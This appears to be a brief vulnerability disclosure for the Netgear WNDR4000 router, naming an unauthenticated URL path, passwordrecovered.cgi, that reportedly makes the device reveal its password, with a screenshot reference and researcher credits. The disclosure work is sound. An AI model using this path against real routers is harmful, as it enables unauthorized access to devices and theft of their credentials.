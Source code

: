 # PoC

There is an unauthorized access vulnerability in Netgear -WNDR4000 router. Attackers can access http://ip/passwordrecovered.cgi without authorization, which makes the router give away the password

#### http://ip/passwordrecovered.cgi

![image-20210508112255177](./image-20210508112255177.png)







#### Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Yi-fei Gao

Zhen-hua Wang

En-Ze Wang

Wei Xie